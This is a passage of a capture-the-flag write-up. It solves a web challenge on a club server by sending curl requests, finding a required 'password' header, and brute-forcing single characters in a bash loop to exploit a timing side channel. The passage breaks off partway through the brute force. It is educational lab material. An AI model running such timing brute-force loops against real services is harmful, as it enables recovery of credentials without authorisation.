 Solution
========

We are given a regex format for the flag. The regex quite literally means that there the flag is alphabets (upper or lower case) which are repeating, and is a single word.

We are given a URL to mess with, and we do the preliminary task of scanning what is up.

	$ curl ctfclubiiit.tk:8080 -v
	* Rebuilt URL to: ctfclubiiit.tk:8080/
	*   Trying 54.175.180.76...
	* Connected to ctfclubiiit.tk (54.175.180.76) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: ctfclubiiit.tk:8080
	> User-Agent: curl/7.47.0
	> Accept: */*
	> 
	< HTTP/1.1 200 OK
	< Server: nginx/1.10.0 (Ubuntu)
	< Date: Sun, 26 Feb 2017 05:11:57 GMT
	< Content-Length: 32
	< Connection: keep-alive
	< 
	* Connection #0 to host ctfclubiiit.tk left intact
	Could Not Find "password" header

So it seems that the question requires a Header Password, so we make a guess with a password, as good as any...

	$ curl ctfclubiiit.tk:8080 -v -H password:password
	* Rebuilt URL to: ctfclubiiit.tk:8080/
	*   Trying 54.175.180.76...
	* Connected to ctfclubiiit.tk (54.175.180.76) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: ctfclubiiit.tk:8080
	> User-Agent: curl/7.47.0
	> Accept: */*
	> password:password
	> 
	< HTTP/1.1 200 OK
	< Server: nginx/1.10.0 (Ubuntu)
	< Date: Sun, 26 Feb 2017 05:12:32 GMT
	< Content-Length: 30
	< Connection: keep-alive
	< 
	* Connection #0 to host ctfclubiiit.tk left intact
	Time taken: 0.8570860189920093

So that is a interesting response. It gives out a time taken entry. The question seems to point to a single word flag, and we could do a brute force. Let us try with all single characters.

	$ for i in {a..z} {A..Z}
	do
	curl -s ctfclubiiit.tk:8080 -H password:$i -v
	done
	* Rebuilt URL to: ctfclubiiit.tk:8080/
	*   Trying 54.175.180.76...
	* Connected to ctfclubiiit.tk (54.175.180.76) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: ctfclubiiit.tk:8080
	> User-Agent: curl/7.47.0
	> Accept: */*
	> password:a
	> 
	...
	* Connection #0 to host ctfclubiiit.tk left intact
	Time taken: 0.18704188948235467* Rebuilt URL to: ctfclubiiit.tk:8080/